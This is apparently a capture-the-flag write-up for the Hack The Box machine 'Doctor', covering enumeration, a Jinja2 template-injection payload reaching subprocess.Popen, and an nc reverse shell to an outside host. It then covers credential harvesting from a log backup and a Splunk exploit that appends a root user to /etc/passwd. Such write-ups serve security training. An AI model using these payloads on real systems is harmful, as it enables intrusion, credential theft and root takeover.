 # Doctor

### Basic Information
**Machine name:** Doctor  
**IP:** 10.10.10.209  
**Written by:** Adir Biran  
**Tools:** Nmap, Gobuster    
**Method:** 


## Enumeration


#### Nmap
<p align="center">
  *1
</p>

Open Ports:  
22 - SSH  
80 - HTTP  
8089 - HTTPS  

#### Gobuster

Gobuster - Port 80  
<p align="center">
  *2
</p>

Endpoints found:  
 

Gobuster - Port 8089  
<p align="center">
*3
</p>

Endpoints found:  



the website
*4

info@doctors.htb
nothing else useful

add doctors.htb to hosts
*5

gobuster on doctors.htb
*6

the website on 8089
*7
the service installed is splunk 8.0.5 and requires username and password which we don't have.
at this point searched for exploits and default credentials, but nothing worked.

/robots.txt
*7-1

we will get back to splunk later when we find the credentials.

doctors.htb
*8
leads to a login page

/archive leads to a blank page, but viewing the source code
*8-2

tried basic sql injection but all trials failed.

registered a new account
*9

that stays active for 20 minutes, after that we will have to create another one.
*10

tried posting a new message and test for xss and ssti
*11

however, looks like the code isn't injected.

kept trying different syntaxes based on PayloadAllTheThings repository:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

after enumerating and looking back at /archive

even though the page is blank, when looking again at the source code, we can see the website is vulnerable to ssti attack as the input (7+7) was rendered by the template engine.
*12

found this article about SSTI on jinja2/flask
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

there are multiple methods found to achieve the RCE easily, but we will do it manually.
started climbing the tree, by entering the following commands into the template, and reading the results from /archive.

{{"".__class__}}
*13
{{"".__class__.__mro__}}
*14
{{"".__class__.__mro__[1]}}
*15
{{"".__class__.__mro__[1].__subclasses__()}}
*16

the input we received from this stage, contains all the modules that are imported.
in order to execute code on the machine, we need to locate the correct module and function.

first, we'll copy the whole line to a file and remove the begining and tailing tags (<title>,<item>).
*17

as we can see its a long list with html entities:
&lt; represents "lower than" <
*gt; represents "greater than" >
&#39; represents '

we will use sed to find and replaces all occurences of the html entities.
sed 's/&lt;/</g'
replace all &lt; occurrences with <

replace all the "&gt;" occurrences with >
sed 's/&gt;/>/g'

replace all "&#39;" occurences with '
sed "s/&#39;/'/g"

replacing all the commas with new lines
sed "s/, /\n/g"

combining the 4 together
cat results | sed 's/&gt;/>/g' | sed 's/&lt;/</g' | sed "s/&#39;/'/g" | sed "s/, /\n/g" | grep subprocess
*18

now that we have a beautiful list, let's look for subprocess module.
cat results | sed 's/&gt;/>/g' | sed 's/&lt;/</g' | sed "s/&#39;/'/g" | sed "s/, /\n/g" | grep subprocess
*19

good, now let's get the line number of subprocess.Popen using grep with -n tag.
*20

subprocess.Popen is at line 408.
However we need to substract 1 from the line number we got because the indexes do not align.

so the next command to inject into the template engine will be:
{{"".__class__.__mro__[1].__subclasses__()[407]}}
*21

we will try to execute 'whoami' as a POC:
{{"".__class__.__mro__[1].__subclasses__()[407]('whoami', shell=True, stdout=-1).communicate()}}
*22

we can see that it runs as "web".

to get a reverse shell, we'll just replace the command with the following payload:

tried a few syntaxes of nc reverse shell payloads but only this on worked:
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1234 >/tmp/f

so lets open nc on port 1234 and inject the following command:
{{"".__class__.__mro__[1].__subclasses__()[407]('rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1234 >/tmp/f', shell=True, stdout=-1).communicate()}}
*23

and we're in as web.

other users on the machine:
*23-2

web is part of the adm group
*24

meaning, we can read log files that located in /var/log.
*25

after checking several log files, got a hit on a backup file located in /var/log/apache2:
using cat backup | grep pass
*26

password found: Guitar123

tried login to the other users
*27
splunk failed but shaun succeed with Guitar123 as the password.

after checking several methods to escalate to root (that failed), decided to try those credentials on the website on port 8089 from earlier.
*28

it worked.

searched on google what can be exploited with splunk credentials.
found this repository
https://github.com/cnotin/SplunkWhisperer2.git
and gave it a try

cloned the repository
*29

running the remote python script indicates the parameters needed.
*30

so the command will be:
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.6 --username shaun --password Guitar123 --payload 'whoami'
*31

however, we don't get results from the exploit even though it seems to work.
let's try another way to get POC that it works, by creating a file on the remote machine on /tmp directory:
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.6 --username shaun --password Guitar123 --payload 'touch /tmp/test'
*32

and on the remote machine while on shaun user, check the /tmp directory:
*33

we can see that the file was created by root.

we will escalate the privileges by adding an entry to the /etc/passwd file.
on the local machine, create a password for the new user to be added:
perl -le 'print crypt("pass", "anything")'
*34

the line that needs to be added is to the passwd file is:
root2:an5CaYOk82Zq6:0:0:root2:/root:/bin/bash

so the final command is:
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.6 --username shaun --password Guitar123 --payload 'echo "root2:an5CaYOk82Zq6:0:0:root2:/root:/bin/bash" >> /etc/passwd'
*35

checking on the victim's machine that the entry was added successfuly
*36

and switching to root2 with "pass" as password that created previously.
*37

and we're root.
